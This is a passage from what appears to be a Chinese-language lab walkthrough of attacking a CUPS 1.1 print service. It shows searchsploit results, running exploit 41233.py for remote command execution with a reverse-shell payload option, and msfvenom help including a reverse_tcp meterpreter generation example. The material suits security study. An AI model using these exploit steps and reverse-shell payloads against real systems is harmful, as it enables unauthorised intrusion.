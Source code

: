 CUPS 1.1 是这个服务的第一个稳定发行版，考虑 `searchsploit` 获取已知 `exploit`

```yacas
> searchsploit cups 1.1
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
CUPS 1.1.x - '.HPGL' File Processor Buffer Overflow                   | linux/remote/24977.txt
CUPS 1.1.x - Cupsd Request Method Denial of Service                   | linux/dos/22619.txt
CUPS 1.1.x - Negative Length HTTP Header                              | linux/remote/22106.txt
CUPS 1.1.x - UDP Packet Remote Denial of Service                      | linux/dos/24599.txt
CUPS < 1.3.8-4 - Local Privilege Escalation                           | multiple/local/7550.c
CUPS < 2.0.3 - Multiple Vulnerabilities                               | multiple/remote/37336.txt
CUPS < 2.0.3 - Remote Command Execution                               | linux/remote/41233.py
CUPS Server 1.1 - GET Denial of Service                               | linux/dos/1196.c
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`CUPS < 2.0.3 - Remote Command Execution` 远程代码执行，考虑使用这个，使用 `searchsploit -m 41233` 取一份到本地运行：

```yacas
> python 41233.py
  File "/home/kali/Desktop/41233.py", line 16
    print '''
    ^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

把 SyntaxError 的内容 SFTW 一下发现是因为使用了 Python 2 语法，继续：

```yacas
> python2 41233.py
python script.py <args>
   -h, --help:             Show this message
   -a, --rhost:            Target IP address
   -b, --rport:            Target IPP service port
   -c, --lib               /path/to/payload.so
   -f, --stomp-only        Only stomp the ACL (no postex)

Examples:
python script.py -a 10.10.10.10 -b 631 -f
python script.py -a 10.10.10.10 -b 631 -c /tmp/x86reverseshell.so
```

发现需要构造 `payload.so` 并作为参数传入，这和 Kioptix 1 中遇到的开箱即用的脚本不一样

继续 STFW 发现了 `msfvenom`，支持生成各种各样的 payload（预装于 Kali）

```yacas
// 运行 msfvenom -h
> msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
	// 只取了最核心的三个参数，和上面的例子一样
	// --list 可以具体列出可行的参数
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
    -f, --format          <format>   Output format (use --list formats to list)
    -o, --out             <path>     Save the payload to a file

// payload 查询
```